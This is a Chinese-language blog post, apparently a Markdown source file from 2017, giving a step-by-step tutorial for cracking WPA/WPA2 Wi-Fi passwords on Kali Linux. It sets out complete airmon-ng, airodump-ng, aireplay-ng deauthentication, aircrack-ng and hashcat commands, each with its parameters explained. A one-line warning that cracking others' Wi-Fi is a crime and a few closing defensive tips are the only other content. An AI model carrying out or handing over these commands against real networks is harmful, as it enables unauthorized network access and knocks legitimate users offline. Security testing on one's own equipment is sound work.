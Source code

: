 ```yaml
---
title: "Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)"
categories: [ "安全" ]
tags: [ "wifi安全" ]
draft: false
slug: "Kali Linux使用Aircrack破解wifi密码(wpawpa2)-kalilinux使用aircrack破解wifi密码wpawpa2"
date: "2017-04-08 07:16:20"
---
```




Kali Linux能做很多事，但是它主要以渗透测试及’破解wifi密码’闻名。

如果你使用Macbook 请看 `使用macbook破解WPA/WPA2 wifi密码`

要求:

  * 安装有Kali Linux的计算机
  * 支持监控模式的网卡，笔记本电脑一般都支持
  * 字典文件
  * 时间和耐心

这种攻击需要字典文件，一个好的字典至关重要。我以Kali Linux自带的rockyou字典为例，位于/user/share/wordlists/rockyou.txt.gz。

使用前先解压：

    # gzip -d /usr/share/wordlists/rockyou.txt.gz
    

* * *

注意：破解其他人的wifi密码是“犯罪”，so，don’t；我使用自己的无线路由器演示。  
知道了攻击方法，你自然就知道怎么防范了。

* * *

## 1）首先断开连接的wifi。

在终端中执行：

    # airmon-ng

![][1] 

上面命令列出了支持监控模式的无线网卡。如果没有任何输出，表示无线网卡不支持监控模式。你可以看到我的wlan0支持监控模式。

## 2）开启无线网卡的监控模式

    # airmon-ng start wlan0

![][2]  
执行成功之后网卡接口变为wlan0mon；可以使用ifconfig命令查看。

## 3）查看wifi网络

    # airodump-ng wlan0mon

上面列出了周围的wifi和它们的详细信息，包括信号强度、加密类型、频道等。要记住要破解wifi的频道号和BSSID。

按Ctrl-C结束。

## 4）抓取握手包

使用网卡的监听模式抓取周围的无线网络数据包。其中，对我们最重要的数据包是：包含密码的包－也叫握手包。当有新用户或断开用户自动连接wifi时，会发送握手包。

开始抓包：

    # airodump-ng -c 6 --bssid BC:46:99:66:F9:84  -w ~/ wlan0mon

参数解释：

  * -c指定频道号
  * –bssid指定路由器bssid
  * -w指定抓取的数据包保存位置

![][3] 

## 5）强制连接到wifi的设备重新连接路由器

现在我们只要等用户连接/重连接wifi了，运气不好也许要很长时间。

但是我们是不会等的，这不是耐心黑客该干的事。有一个叫aireplay-ng的工具，它可以强制用户断开wifi连接；原理是，给连接到wifi的一个设备发送一个deauth（反认证）包，让那个设备断开wifi，随后它自然会再次连接wifi。

aireplay-ng的生效前提是，wifi网络中至少有一个连接的设备。从上图(4)可以看到哪些设备连接到了wifi，STATION就是连接设备的MAC地址，记住一个。

  * [aircrack-ng官网][4]

打开新终端执行：

    aireplay-ng -0 2 -a 46:99:66:F9:84 -c B8:E8:56:09:CC:9C wlan0mon

参数解释：

  * -0表示发起deauthentication攻击
  * -a指定无线路由器BSSID
  * -c指定强制断开的设备

![][5] 

如果成功：

![][6] 

按Ctrl-C结束抓包。

我们已经得到了想要的握手包了，可以结束无线网卡的监控模式了：

    # airmon-ng stop wlan0mon

![][7] 

## 6) 开始破解密码

    # aircrack-ng -a2 -b C8:3A:35:30:3E:C8 -w /usr/share/wordlists/rockyou.txt ~/*.cap
    

参数解释：

  * -a2代表WPA的握手包
  * -b指定要破解的wifi BSSID。
  * -w指定字典文件
  * 最后是抓取的包

![][8] 

### 可选）使用显卡的运算能力

如果你有一个强大的GPU，为什么不使用GPU跑字典呢？

[Hashcat][9]可以借助GPU的运算力破解各种不同算法的hash值。

下载时要注意选择正确的显卡类型（AMD、NVidia）。Kali Linux自带这个工具。

在破解cap文件之前，要把它转换为hccap文件：

    # aircrack-ng file.cap -J out.hccap

使用GPU破解hash：

    # hashcat -m 2500 out.hccap 字典文件

## 总结：

  * 防止这种攻击最简单的方法是设置贼复杂贼长的密码；
  * 不要使用WEP加密方式，非常容易被破解
  * 现在的无线路由器都有WPS功能，关了吧

 [1]: /uploads/oss/2017-04-25-14916359902729.png ""
 [2]: /uploads/oss/2017-04-25-14916360322395.png ""
 [3]: /uploads/oss/2017-04-25-14916361897205.png ""
 [4]: https://www.aircrack-ng.org/
 [5]: /uploads/oss/2017-04-25-14916362689961.png ""
 [6]: /uploads/oss/2017-04-25-14916362785725.png ""
 [7]: /uploads/oss/2017-04-25-14916363050642.png ""
 [8]: /uploads/oss/2017-04-25-14916363505198.png ""
 [9]: http://hashcat.net/